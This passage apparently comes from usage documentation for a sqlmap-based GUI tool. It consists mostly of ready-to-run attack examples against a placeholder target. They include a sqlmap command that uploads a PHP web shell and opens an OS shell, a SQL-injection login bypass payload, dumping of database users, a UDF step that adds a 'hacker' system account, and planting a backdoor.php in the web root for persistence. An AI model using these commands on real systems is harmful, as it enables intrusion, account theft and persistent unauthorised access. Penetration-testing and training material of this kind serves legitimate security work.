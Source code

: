 ```
├── Interactive Shell: ✓
└── Shell: /bin/bash

Request Tab:
├── Safe URL: http://target.com/uploads/shell.php
├── Safe POST: cmd=whoami
└── Delay: 2
```

**Generated Command:**
```bash
sqlmap -u "http://target.com/upload.php" --method=POST --data="file=/path/to/shell.php&upload=Upload" --file-write=./webshell.php --file-dest=/var/www/html/uploads/shell.php --file-check=/var/www/html/uploads/shell.php --os-cmd="whoami && id && uname -a" --os-shell --os-shell=/bin/bash --safe-url="http://target.com/uploads/shell.php" --safe-post="cmd=whoami" --delay=2
```

## 🔧 Custom Exploitation Chains

### Example 12: Multi-Stage Exploitation
**Scenario:** Chain multiple vulnerabilities for complete compromise

**Stage 1: Initial Access**
```
Target Tab:
├── URL: http://target.com/login.php
├── Method: POST
└── Data: username=admin' -- &password=

Detection Tab:
├── Level: 3
├── Risk: 2
└── Techniques: BEU
```

**Stage 2: Database Enumeration**
```
Enumeration Tab:
├── Enumerate Databases: ✓
├── Enumerate Tables: ✓
├── Enumerate Users: ✓
└── Dump Table: ✓ (for users table)
```

**Stage 3: Privilege Escalation**
```
UDF Tab:
├── UDF Exec: sys_exec
└── UDF Args: 'useradd -m hacker'
```

**Stage 4: Persistence**
```
File System Tab:
├── Write Local File: ./backdoor.php
└── Destination: /var/www/html/backdoor.php
```
